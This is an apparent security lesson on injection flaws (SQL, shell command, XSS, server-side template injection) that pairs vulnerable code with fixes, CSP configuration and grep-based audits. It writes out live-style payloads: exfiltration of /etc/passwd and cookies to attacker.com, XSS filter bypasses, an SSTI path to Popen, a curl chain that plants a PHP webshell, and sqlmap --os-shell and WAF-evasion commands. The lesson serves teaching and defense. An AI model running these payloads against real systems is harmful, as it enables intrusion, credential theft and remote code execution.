

# Lesson 2: Injection Vulnerabilities

## 1. First-Principles Intuition & Invariants

Every injection vulnerability shares a single root cause: a system that accepts data from an untrusted source and passes it, without transformation, into a context where it is interpreted as instructions rather than values. The word "injection" is almost too gentle for what actually happens. When an attacker injects SQL, they are not inserting a string into a query; they are rewriting the program itself at runtime, substituting their own logic for the developer's intended logic, using the application's own database credentials and privileges to do so. The same structural failure reappears across every injection class, whether the interpreter is a SQL engine, a UNIX shell, a browser's JavaScript runtime, or a Jinja2 template renderer. Understanding injection at the first-principles level means understanding interpreter grammar, trust boundaries, and the moment a data channel becomes an instruction channel.

The fundamental invariant at stake is **channel separation**: every interpreter operates on a stream of tokens, and those tokens are either control tokens (SQL keywords, shell metacharacters, HTML tags, template delimiters) or data tokens (literal string values, integer literals). A correctly designed system ensures that attacker-controlled bytes never reach the control token position in the parse tree. When this invariant breaks, the interpreter cannot distinguish the developer's program from the attacker's payload, because both arrived through the same channel.

Consider what a SQL parser actually does when it receives a query. The lexer tokenizes the input into a sequence of keywords (`SELECT`, `WHERE`, `AND`), identifiers (column and table names), operators (`=`, `>`, `LIKE`), and literal values. The parser assembles these tokens into an abstract syntax tree (AST), and the query planner walks that tree to produce an execution plan. If a string literal can produce a token that the lexer classifies as a keyword or operator, the parse tree changes shape. The developer wrote one query; the database executes a different one. This is not a bug in the database; it is a consequence of constructing a parse tree from concatenated strings, which makes it structurally impossible to enforce the data/control boundary at the syntax level.

The historical record of injection vulnerabilities is not a story of edge cases and exotic attack surfaces. SQL injection was described in depth by Jeff Forristal in Phrack issue 54 in 1998, became the leading cause of data breaches for nearly two decades, and remains in OWASP's top ten to this day. This persistence is not because developers are careless; it is because the failure mode is natural to the most common programming idiom: string interpolation. String interpolation feels correct because it produces visually readable queries, it works perfectly against benign inputs, and the error only manifests when control tokens arrive — which never happens in development or testing unless the test suite is explicitly adversarial.

Command injection carries the same structure into a more dangerous interpreter: the POSIX shell. When a web application calls `system()`, `popen()`, `exec()`, or passes user data to `subprocess.call(..., shell=True)` in Python, it is composing a shell command string. The shell lexer tokenizes that string using metacharacters: semicolons separate commands, backticks and `$(...)` expand subshells, pipes compose processes, and `&&` and `||` implement short-circuit logic. Any of these characters embedded in user input restructures the command AST in exactly the same way that a SQL quote restructures the query AST. The difference is that the shell is executing arbitrary processes with the web server's OS-level credentials — often as `www-data` or, on a misconfigured server, as `root`. The blast radius is an order of magnitude larger than SQL injection, which is typically constrained to the database user's privileges.

Cross-site scripting (XSS) completes the triad by targeting the browser's HTML and JavaScript parsers rather than a server-side interpreter. The browser is the most complex parser in the injection landscape: it runs five distinct parsers simultaneously (HTML, CSS, JavaScript, URL, and an attribute value parser) and switches among them based on context. When an attacker injects `<script>alert(1)</script>` into an HTML page, the HTML parser encounters a tag token, and the content inside is handed to the JavaScript parser. This context switch is the injection event: a string that was meant to live as text in a `<p>` element has escaped into an execution context. The severity depends entirely on what the JavaScript can reach — and in a browser, that includes the DOM, cookies, `localStorage`, the credential form, and the ability to issue authenticated fetch requests to any origin the victim's session can access.

Template injection is the most architecturally interesting variant because it targets the boundary between application code and document generation. Template engines like Jinja2, Twig, Freemarker, and Pebble are domain-specific languages: they have their own grammar, their own variable scoping rules, and their own function/filter call mechanisms. When a Jinja2 template evaluates `{{ user_input }}`, it passes `user_input` through the expression evaluator. If `user_input` contains Jinja2 expression syntax — `{{ 7*7 }}`, `{{ config }}`, or `{{ ''.__class__.__mro__[1].__subclasses__() }}` — the evaluator interprets those tokens as code, not data. The attacker has injected into the template language's AST, and because Jinja2's expression evaluator can reach Python's object hierarchy through attribute chains, server-side template injection (SSTI) frequently yields full remote code execution without touching the shell at all.

The unifying invariant across all of these classes is this: **parameterization is the only structural fix; sanitization is a policy enforcement attempt on an unsecured channel**. Parameterization works by separating the program's AST construction from its data binding. The query or command is parsed and compiled before any user data is introduced; the data is bound to typed parameter slots in the already-parsed AST, where it cannot alter the tree's structure regardless of what characters it contains. Sanitization attempts to strip or escape control tokens from data before it enters the channel, which requires a complete, context-accurate model of every token the downstream interpreter recognizes. This is provably harder than it sounds: SQL has multiple string literal syntaxes across dialects, the shell has quoting modes that interact in non-obvious ways, and the HTML parser's context-switching behavior means that the escaping rules differ between HTML text, attribute values, URL parameters, inline JavaScript, and CSS. Getting any one of these wrong leaves a gap. Parameterization eliminates the gap by construction.

---

## 2. Core Architecture & Mechanics

### SQL Injection: Parse Tree Corruption

To understand SQL injection mechanically, it is worth tracing exactly what happens to the database query pipeline when a payload arrives. Consider a canonical login query assembled by string concatenation in PHP:

```php
$query = "SELECT id, role FROM users WHERE username = '" . $_POST['username'] . "'
           AND password = '" . md5($_POST['password']) . "'";
$result = mysqli_query($conn, $query);
if (mysqli_num_rows($result) > 0) { /* grant access */ }
```

Under normal operation, the MySQL lexer tokenizes this as:

```
SELECT  id  ,  role  FROM  users  WHERE  username  =  'alice'
AND  password  =  '5f4dcc3b5aa765d61d8327deb882cf99'
```

The parse tree has two predicate leaves joined by `AND`. When the attacker submits the username `' OR '1'='1' -- `, the concatenated query becomes:

```sql
SELECT id, role FROM users WHERE username = '' OR '1'='1' -- '
AND password = '...'
```

The lexer now produces a structurally different token stream. The single quote terminates the string literal early, `OR` becomes a boolean operator, `'1'='1'` is a tautology that always evaluates to true, and `--` is MySQL's single-line comment introducer, which causes the lexer to discard the rest of the input including the password predicate. The parse tree now looks like this:

```
                WHERE
               /     \
             OR        [discarded]
            /  \
    username=''  '1'='1'  (always true)
```

The predicate evaluates to `TRUE` for every row in the table. The result set contains all users. If the application grants access based on a non-empty result set, authentication is bypassed entirely without knowing any valid password. This is classic first-order SQL injection — the payload executes in the same query that the application issued.

A more powerful variant is **UNION-based exfiltration**. Once an attacker confirms injection, they can extend the query's result set to include data from arbitrary tables:

```sql
SELECT id, role FROM users WHERE username = '' UNION SELECT table_name, table_schema
FROM information_schema.tables -- '
```

The UNION operator requires that both SELECT clauses produce the same number of columns with compatible types. The attacker's reconnaissance phase determines the column count by injecting `ORDER BY 1`, `ORDER BY 2`, etc. until a database error signals the boundary. With the column count known, the UNION clause extracts schema metadata, then credential tables, then anything else the database user can reach.

Blind SQL injection is mechanically more sophisticated but conceptually identical. When the application does not reflect query results in the HTTP response — a boolean-only response, a redirect, or a time-based oracle — the attacker encodes information in a binary channel. Boolean blind injection uses conditional predicates:

```sql
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a' -- 
```

If the first character of the admin password is `a`, the WHERE clause evaluates to true and the application responds normally. If not, the application responds differently (empty page, redirect, error). The attacker iterates over the character set for each position, reconstructing the full value character by character. Time-based blind injection uses `SLEEP()` (MySQL) or `pg_sleep()` (PostgreSQL) to encode the oracle in response latency when no behavioral difference is observable in the response body:

```sql
'; IF (SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a')
   WAITFOR DELAY '0:0:5' -- 
```

A five-second delay confirms the predicate; an immediate response refutes it. Tools like `sqlmap` automate this entire process, selecting the fastest available technique and parallelizing requests to minimize extraction time.

The parameterized query defense works at the protocol level, not the SQL text level. When a PHP application uses PDO prepared statements:

```php
$stmt = $pdo->prepare("SELECT id, role FROM users WHERE username = ? AND password = ?");
$stmt->execute([$_POST['username'], md5($_POST['password'])]);
```

The database receives two distinct protocol messages. The first is the `COM_STMT_PREPARE` command containing the query template with placeholder tokens. The MySQL server parses and compiles this template into an execution plan at this point, before any user data exists. The second is `COM_STMT_EXECUTE`, which transmits the parameter values in a typed binary protocol format, not as SQL text. The server binds these values to the already-compiled plan's parameter slots. No matter what the user submits as `username`, it is passed as a typed string value to a plan that was compiled without it. The lexer never processes it; the query AST is immutable. This is why the fix is structural rather than merely syntactic.

### Command Injection: Shell Grammar and Metacharacter Exploitation

The POSIX shell grammar is rich enough to make command injection frequently more dangerous than SQL injection. The following Python web endpoint is representative of vulnerable code found in administration tools and legacy DevOps dashboards:

```python
import subprocess
from flask import Flask, request

app = Flask(__name__)

@app.route('/ping')
def ping():
    host = request.args.get('host', '')
    result = subprocess.run(f"ping -c 4 {host}", shell=True, capture_output=True, text=True)
    return result.stdout
```

The `shell=True` argument causes Python to pass the composed string to `/bin/sh -c`, handing full shell grammar expansion to the subprocess. An attacker requesting `/ping?host=8.8.8.8;id` causes the shell to execute two commands sequentially: `ping -c 4 8.8.8.8` and then `id`. The semicolon is a command separator in the shell's grammar. The response includes the output of both commands, confirming code execution.

More targeted payloads exploit subshell expansion:

```
host = 8.8.8.8 $(cat /etc/passwd | base64 | curl -d @- https://attacker.com/exfil)
```

The `$(...)` construct is evaluated by the shell before the outer `ping` command runs. It reads `/etc/passwd`, base64-encodes it, and exfiltrates it to an attacker-controlled server in a single HTTP POST. This is a one-shot exfiltration payload that executes entirely within the shell's argument expansion phase, before the application's intended command runs.

The fix requires abandoning `shell=True` entirely and passing arguments as a list, which causes Python to call `execve()` directly:

```python
import subprocess
import shlex
from flask import Flask, request

app = Flask(__name__)

ALLOWED_HOSTS = re.compile(r'^[a-zA-Z0-9.\-]{1,253}$')

@app.route('/ping')
def ping():
    host = request.args.get('host', '')
    if not ALLOWED_HOSTS.match(host):
        return "Invalid host", 400
    result = subprocess.run(["ping", "-c", "4", host], capture_output=True, text=True, timeout=10)
    return result.stdout
```

When `subprocess.run` receives a list rather than a string with `shell=True`, Python calls `execve("/bin/ping", ["ping", "-c", "4", host], env)` directly. The operating system's `execve` syscall takes an argument vector — it has no grammar, no metacharacters, no parser. The string `8.8.8.8;id` is passed as a literal argument to `ping`, which treats it as a hostname and fails with a DNS error. Shell metacharacters have no special meaning outside a shell. The defense here is not escaping; it is bypassing the shell parser entirely.

### XSS: Browser Parse Context and the Five Parsers

XSS mechanics are significantly more complex than SQL or command injection because the browser's parsing model is not a single grammar but a context-dependent composition of parsers. The injection point's context determines which parser governs interpretation, which determines which characters function as control tokens, and therefore which escaping strategy is necessary. Getting the context wrong voids the defense entirely.

The five parsing contexts and their relevant control tokens are best understood through the browser's HTML5 parsing state machine:

```
HTML Text Context:        < starts a tag, & starts an entity
HTML Attribute Context:   " or ' closes the attribute value, < starts a tag
JavaScript String Context: \ is escape, ' or " closes the string
URL Context:              javascript: scheme, % encoding
CSS Context:              url(), expression() (legacy IE)
```

**Reflected XSS** occurs when the application echoes user input back in the HTTP response without encoding it for the response's parse context. The simplest case is a search endpoint:

```python
@app.route('/search')
def search():
    query = request.args.get('q', '')
    return f"<html><body>Results for: {query}</body></html>"
```

An attacker crafts the URL `/search?q=<script>document.location='https://attacker.com/steal?c='+document.cookie</script>`. The server reflects this verbatim into the HTML response. The browser's HTML parser encounters the `<script>` tag, switches to the JavaScript parser, and executes the script, which exfiltrates the victim's session cookie. The attack requires the victim to click the crafted link, so reflected XSS is typically delivered through phishing, embedded links, or HTTP response manipulation.

**Stored XSS** is architecturally more serious because the payload persists in the application's database and executes for every user who loads the affected page, without requiring any attacker interaction after initial injection. A comment field that stores and renders unescaped HTML is the canonical case:

```sql
INSERT INTO comments (user_id, body) VALUES (42, '');
```

Every subsequent user who loads the page containing this comment will have their cookie silently exfiltrated. The `onerror` event handler fires when the browser fails to load the image from `src=x` (which is not a valid URL), and the fetch runs in the victim's browser session. This payload does not require `<script>` tags at all; HTML event handlers provide a JavaScript execution context from within attribute values.

**DOM-based XSS** is mechanically distinct because the server never sees the malicious payload — it exists only in the client-side JavaScript execution environment. Consider the following script:

```javascript
// Vulnerable: reads from location.hash and writes to innerHTML
document.getElementById('output').innerHTML = decodeURIComponent(location.hash.slice(1));
```

An attacker crafts the URL `https://victim.com/page#`. The server receives a request for `/page` with no query parameters — the fragment identifier (`#...`) is never sent to the server by the HTTP spec. The server responds with the legitimate page. The client-side JavaScript reads `location.hash`, decodes it, and assigns it to `innerHTML`. The HTML parser processes the injected tag in the DOM, fires the `onerror` handler, and executes the payload. This is a server-bypass attack; WAFs and server-side input validation are entirely blind to it because the payload never traverses the network layer they inspect.

The correct defenses for XSS are context-sensitive output encoding. For HTML text context, the five characters `& < > " '` must be encoded as HTML entities. For HTML attribute context, the same set applies with stricter rules around attribute quoting. For JavaScript string context, the encoding must handle Unicode escaping, not just HTML entities. The simplest and most reliable approach is to use a template engine with auto-escaping enabled by default and to avoid sinking user data into `innerHTML`, `document.write()`, `eval()`, `setTimeout(string)`, or any other DOM sink that accepts markup or code strings. The safe DOM sink is `textContent`, which always treats its argument as a text node — it cannot contain HTML tags, event handlers, or script execution contexts.

### Server-Side Template Injection: Escaping into the Expression Evaluator

SSTI is distinct from XSS in that it executes on the server, with the application's privileges, rather than in the victim's browser. The attack surface arises when user-controlled data is passed into a template engine's `render()` or `from_string()` function rather than into a template variable within an already-compiled template.

The vulnerable pattern in Flask/Jinja2 is:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/greet')
def greet():
    name = request.args.get('name', 'World')
    # WRONG: user data is interpolated into the template string before rendering
    return render_template_string(f"<h1>Hello, {name}!</h1>")
```

The developer's intent is to substitute `name` as a plain text value. But because `f"<h1>Hello, {name}!</h1>"` runs Python's f-string interpolation before `render_template_string` ever sees it, the resulting string is passed to Jinja2's parser. If `name` is `{{ config }}`, Jinja2 evaluates it as a template expression and renders the Flask application's configuration object — which typically contains the secret key, database URIs, and other secrets. If `name` is `{{ ''.__class__.__mro__[1].__subclasses__() }}`, Jinja2 evaluates the expression, traversing Python's object hierarchy through `str.__mro__` to `object`, then listing all classes that inherit from `object` in the current Python process. Among those subclasses is `subprocess.Popen`. The attacker can invoke it:

```
{{ ''.__class__.__mro__[1].__subclasses__()[396]('id', shell=True, stdout=-1).communicate() }}
```

The index `396` is determined by scanning the subclass list for `subprocess.Popen`, which varies by Python version and loaded modules. This yields full code execution on the server without any OS-level vulnerability — the entire attack travels through the template engine's expression evaluator.

The correct pattern is to pass user data as a template variable, never as part of the template string itself:

```python
@app.route('/greet')
def greet():
    name = request.args.get('name', 'World')
    # CORRECT: template is a static string; user data is a bound variable
    return render_template_string("<h1>Hello, {{ name }}!</h1>", name=name)
```

Here, `render_template_string` receives a template string that it compiles once. The `name` variable is bound in Jinja2's data context, not in the template AST. Jinja2's auto-escaping also HTML-encodes the output, preventing the template variable from being treated as markup. This is the template equivalent of parameterized queries: the program structure (template AST) is fixed before data is introduced.

The execution flow across all four injection classes can be summarized in a single architectural diagram:



---

## 3. High-Performance Optimization & Failure Modes

### Sanitization Failure Modes and Bypass Taxonomy

Sanitization-based defenses fail in ways that are systematic and predictable. Understanding the failure taxonomy is essential for penetration testers validating defenses and for architects deciding when sanitization is appropriate versus when it must be replaced by parameterization.

The most common failure is **incomplete blocklist coverage**. An application that strips `<script>` tags from input before rendering it as HTML is protecting against exactly one of the dozens of XSS vectors the HTML5 parser recognizes. The following payloads bypass a naive `<script>` tag filter:

```html

<svg onload=alert(1)>
<a href="javascript:alert(1)">click</a>
<details open ontoggle=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<input autofocus onfocus=alert(1)>
<body onpageshow=alert(1)>
<math><mtext></table></math>
```

Each of these uses a different HTML element, a different event handler, or a different parser context to achieve JavaScript execution. The `javascript:` URI scheme exploits the URL parser context rather than the HTML tag parser. The `<math>` and `<svg>` payloads exploit the HTML5 parser's foreign content model, which switches parsing rules inside MathML and SVG namespaces. No static blocklist can enumerate all current and future valid HTML elements and event handlers; the HTML living standard adds new elements and APIs continuously.

**Double encoding bypass** is effective against filters that decode input before scanning it but encode it only once before output. If the application decodes `%253C` to `%3C`, then strips literal `%3C` as a URL-encoded `<`, but the downstream component decodes `%3C` again, the `<` survives into the output. This is common in filter chains where the WAF and the application perform independent decoding passes.

**SQL injection filter bypass** via comment insertion exploits MySQL's inline comment syntax. MySQL treats `/*! ... */` as executable SQL comments for version-conditional execution, and treats `/*!50000 ... */` as SQL to execute only on MySQL 5.0.0 and above. A filter stripping the string `UNION SELECT` does not detect `UNION/**/SELECT`, `UN/**/ION SEL/**/ECT`, or `UNION%20SELECT` depending on how whitespace and URL decoding interact. Second-order SQL injection is a failure mode where the application correctly parameterizes the initial `INSERT` but later constructs a new query by concatenating data it retrieved from the database — treating the database as a trusted source when it may contain attacker-controlled values written in an earlier request.

The most important optimization in a secure-by-design application is ensuring that the ORM or database layer enforces parameterized queries globally, with no opt-out path for dynamic queries. ORMs like SQLAlchemy, Hibernate, and ActiveRecord use parameterized queries by default. The injection surface appears when developers bypass the ORM for performance or flexibility:

```python
# UNSAFE: raw string interpolation bypasses SQLAlchemy's parameterization
result = db.session.execute(f"SELECT * FROM orders WHERE status = '{status}'")

# SAFE: SQLAlchemy text() with bindparams enforces parameterization
from sqlalchemy import text
result = db.session.execute(text("SELECT * FROM orders WHERE status = :status"),
                            {"status": status})
```

For stored procedures, the same invariant applies. A stored procedure that accepts parameters and uses them in parameterized internal queries is safe. A stored procedure that constructs a dynamic SQL string internally using `EXEC()` or `sp_executesql` with concatenation reintroduces the injection surface inside the database engine itself:

```sql
-- UNSAFE: dynamic SQL construction inside a stored procedure
CREATE PROCEDURE SearchUsers @username NVARCHAR(100)
AS BEGIN
    DECLARE @sql NVARCHAR(500)
    SET @sql = 'SELECT * FROM users WHERE username = ''' + @username + ''''
    EXEC(@sql)
END

-- SAFE: sp_executesql with typed parameters
CREATE PROCEDURE SearchUsers @username NVARCHAR(100)
AS BEGIN
    DECLARE @sql NVARCHAR(500) = N'SELECT * FROM users WHERE username = @u'
    EXEC sp_executesql @sql, N'@u NVARCHAR(100)', @u = @username
END
```

### Content Security Policy as a Defense-in-Depth Layer

Content Security Policy (CSP) is not a primary XSS defense but an effective depth layer that restricts what an injected script can do after it executes. CSP is delivered as an HTTP response header and instructs the browser to enforce a whitelist of trusted sources for scripts, styles, images, frames, and other resource types. A well-configured CSP with `script-src 'nonce-{random}'` requires every inline script tag to carry a cryptographically random nonce generated per-response. An injected `<script>alert(1)</script>` tag without the matching nonce attribute is blocked by the browser before execution.

```
Content-Security-Policy: default-src 'none';
                          script-src 'nonce-rAnd0mBase64ValueGeneratedPerRequest';
                          connect-src 'self';
                          img-src 'self' data:;
                          style-src 'self';
                          base-uri 'none';
                          form-action 'self'
```

The `base-uri 'none'` directive is frequently overlooked and blocks a CSP bypass where an injected `<base href="https://attacker.com">` tag redirects all relative URLs to an attacker-controlled origin. The `form-action 'self'` directive prevents an injected `<form action="https://attacker.com">` from silently submitting credentials to a third party.

CSP bypass research has demonstrated that `script-src` policies that permit broad domain wildcards (e.g., `'self'` on a domain that hosts user-uploaded JavaScript files, or whitelisting entire CDN origins like `*.googleapis.com`) can be bypassed by loading attacker-controlled scripts from those trusted origins. A bypass via Google's JSONP endpoints was documented extensively: because `script-src` permitted `www.google.com`, and Google exposes JSONP endpoints with attacker-controlled callback parameters, the attacker could load `www.google.com/complete/search?client=chrome&jsonp=alert(document.cookie)` as a trusted script. This underscores that CSP is not a substitute for fixing the injection vulnerability — it is a containment measure against the consequences of injection.

### End-to-End Exploitation Lab: SQL Injection to RCE

The following lab demonstrates the full exploitation chain from SQL injection discovery to remote code execution on a MySQL 8.0 database server with `FILE` privilege enabled, running against a deliberately vulnerable target. This chain is representative of what `sqlmap` automates but is worth executing manually to understand each step.

**Step 1: Confirm injection with a timing oracle**

```bash
curl -s "https://target.local/api/users?id=1 AND SLEEP(5)-- -" -w "\nTime: %{time_total}s\n"
```

A five-second delay in the response confirms blind SQL injection. The `-- -` comment sequence (with trailing space before the dash) is more portable across MySQL configurations than `--` alone.

**Step 2: Determine the MySQL user and privilege set**

```bash
# Boolean-based extraction of current user
curl -s "https://target.local/api/users?id=1 AND SUBSTRING(user(),1,4)='root'-- -"

# Confirm FILE privilege
curl -s "https://target.local/api/users?id=1 AND (SELECT COUNT(*) FROM information_schema.USER_PRIVILEGES
         WHERE GRANTEE=CONCAT(CHAR(39),user(),CHAR(39))
         AND PRIVILEGE_TYPE='FILE')=1-- -"
```

**Step 3: Identify the web root using global variables**

```bash
curl -s "https://target.local/api/users?id=0 UNION SELECT @@datadir,2,3,4-- -"
# Typical output: /var/lib/mysql/
# Web root is typically /var/www/html/ on Debian or /srv/http/ on Arch
```

**Step 4: Write a PHP webshell to disk using OUTFILE**

```bash
curl -s "https://target.local/api/users?id=0 UNION SELECT '<?php system(\$_GET[\"cmd\"]); ?>',
         2,3,4 INTO OUTFILE '/var/www/html/shell.php'-- -"
```

**Step 5: Execute OS commands through the webshell**

```bash
curl -s "https://target.local/shell.php?cmd=id"
# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl -s "https://target.local/shell.php?cmd=cat+/etc/passwd"
```

This chain is only possible when MySQL's `secure_file_priv` variable is empty or points to a directory accessible from the web root, and when the database user has `FILE` privilege. Modern MySQL 8.0 installations set `secure_file_priv=/var/lib/mysql-files/` by default, which prevents writing to the web root directly. Nevertheless, `FILE` privilege allows reading arbitrary files from the filesystem, including `/etc/passwd`, SSH private keys, and application configuration files containing database credentials for other systems. Hardening requires explicit `REVOKE FILE ON *.* FROM 'appuser'@'localhost'` and ensuring `secure_file_priv` is set to a non-web-accessible directory in `my.cnf`.

**Using sqlmap for automated exploitation (authorized targets only)**

```bash
# Basic injection test with database fingerprinting
sqlmap -u "https://target.local/api/users?id=1" --dbs --batch --level=3 --risk=2

# Extract all tables from a specific database
sqlmap -u "https://target.local/api/users?id=1" -D webapp --tables --batch

# Dump a specific table
sqlmap -u "https://target.local/api/users?id=1" -D webapp -T users --dump --batch

# Attempt OS shell if FILE privilege is available
sqlmap -u "https://target.local/api/users?id=1" --os-shell --batch

# Test POST parameters with custom headers
sqlmap -u "https://target.local/api/login" --data="username=admin&password=test" \
       --cookie="session=abc123" --level=5 --risk=3 --batch
```

The `--level` parameter controls the breadth of test vectors (1–5, where 5 tests HTTP headers and cookies as injection points), and `--risk` controls the aggressiveness of the payloads (1–3, where 3 includes time-based and heavy-weight tests). For authenticated testing, the `--cookie` and `--headers` flags pass session tokens. The `--tamper` flag loads tamper scripts that transform payloads to bypass WAF signatures:

```bash
# Bypass WAF using multiple tamper scripts
sqlmap -u "https://target.local/api/users?id=1" \
       --tamper=space2comment,between,randomcase,charencode \
       --dbs --batch --level=3
```

### Hardening Checklist and Verification Commands

A production application's injection defense posture should be verifiable through automated testing at the CI/CD layer. The following represents the minimum hardening baseline.

For SQL injection, enforce parameterized queries or ORM query builders throughout the codebase, with a static analysis rule that flags string interpolation into SQL contexts. Verify this with a grep or semgrep rule:

```bash
# Detect raw string interpolation into SQL queries in Python files
semgrep --pattern 'db.execute(f"...")' --lang python src/

# Detect string concatenation into execute() calls
semgrep -e 'cursor.execute($X + $Y)' --lang python src/

# PostgreSQL: confirm no dynamic SQL in stored procedures
psql -U postgres -d webapp -c "
SELECT routine_name, routine_definition
FROM information_schema.routines
WHERE routine_definition ILIKE '%EXECUTE%||%'
   OR routine_definition ILIKE '%CONCAT%SELECT%';"
```

For command injection, the grep for `shell=True` in Python codebases is a reliable signal:

```bash
grep -rn "shell=True" src/ --include="*.py"
grep -rn "os.system\|os.popen\|subprocess.call" src/ --include="*.py"
grep -rn "exec(\|eval(" src/ --include="*.py" | grep -v "test"
```

For XSS in JavaScript frontends, audit all DOM sinks that accept string arguments:

```bash
# Find dangerous DOM sinks in JavaScript source
grep -rn "innerHTML\s*=" src/ --include="*.js" --include="*.ts"
grep -rn "document\.write\|document\.writeln" src/ --include="*.js"
grep -rn "eval(" src/ --include="*.js" | grep -v "node_modules"
grep -rn "setTimeout\s*(\s*['\"]" src/ --include="*.js"
```

For SSTI in Python Flask applications, the invariant is that `render_template_string` must never receive an f-string or any string constructed from user input:

```bash
# Detect render_template_string with f-string interpolation
grep -rn "render_template_string(f" src/ --include="*.py"
grep -rn "render_template_string(.*format(" src/ --include="*.py"
grep -rn "render_template_string(.*%" src/ --include="*.py"
```

The final validation layer is dynamic scanning with a tool like OWASP ZAP or Burp Suite's active scanner, run against a staging environment with a full seeded dataset. These tools probe injection points systematically across all parameter types — query strings, POST bodies, JSON fields, HTTP headers, and cookies. Configure the scanner to authenticate using a session cookie or OAuth token so it reaches authenticated surfaces, which typically have higher injection density because developers assume authenticated users are trusted.

The invariant to carry forward from this lesson is architectural rather than procedural: injection vulnerabilities are a consequence of using string channels to carry both program structure and program data. Every defense that operates on the string channel — stripping, escaping, encoding — is fighting the structure of the problem. The only defense that eliminates the problem's structure is one that separates the two channels before the interpreter ever runs: parameterized queries, argument vectors instead of shell strings, template variables instead of template string interpolation, and DOM text nodes instead of markup sinks. Apply that separation consistently, verify it statically, and treat any deviation as a critical finding regardless of the apparent complexity of exploiting it.
